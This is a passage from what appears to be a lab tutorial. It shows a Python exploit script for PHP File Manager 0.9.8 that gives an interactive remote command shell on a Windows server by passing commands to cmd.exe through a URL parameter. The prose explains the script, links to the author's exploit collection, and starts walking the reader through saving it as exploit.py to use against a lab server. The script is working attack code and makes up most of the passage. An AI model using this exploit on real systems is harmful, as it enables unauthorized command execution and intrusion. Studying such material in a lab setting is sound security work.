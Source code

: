 ```Python
payload = {'frame': '3', 'pass':'' }



#Now do the POST.
x = my_session.post(url,data=payload)


url='http://'+IP+':'+str(port)+'/index.php?action=6&current_dir= C:/Users/Administrator/Desktop/USBWebserver%20v8_en /&cmd=c:\
Windows\system32\cmd.exe /c '
print (url)


#Create a shell.
print ("Type: exit to break")

while True: 

	# Get the command
	cmd = input('shell@'+IP+':~#')

	# Send the command
	url2=url+cmd

	# Get response and display
	response = my_session.get(url2)
	print(response.text)

	# exit to break
	if cmd.strip() == 'exit':
			break

# And sleep........
```
- The script is designed to exploit a vulnerability in the PHP File Manager version 0.9.8, allowing for remote command execution.
- It employs basic networking and HTTP session handling in Python to interact with the target server.

> You can find more of colins exploits at his - [Github](https://github.com/DoctorHackerAbertay/Exploits)

Now, let us commence and utilize this exploit to generate a shell.  
  
For this illustration, we will employ the primary Windows machine. Ensure that **Server 2** is powered on, duplicate the script, open Notepad, and paste it there. Subsequently, save the script as **"exploit.py."**  
  
It can be observed from the "import requests" statement that **Python 3** is being employed, which is typically pre-installed on Windows. However, if it is not installed, it can be downloaded from [HERE](https://www.python.org/downloads/).  
  